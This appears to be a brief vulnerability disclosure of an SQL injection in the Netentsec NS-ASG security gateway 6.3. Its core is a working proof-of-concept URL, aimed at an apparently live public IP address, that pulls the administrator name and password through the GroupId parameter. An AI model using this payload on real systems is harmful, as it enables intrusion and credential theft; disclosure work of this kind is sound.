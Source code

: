 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/config_ISCGroupTimePolicy.php



https://1.85.53.53/admin/config_ISCGroupTimePolicy.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))


<img width="721" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/23882f06-9ad6-4749-b9c3-9174011ee89a">
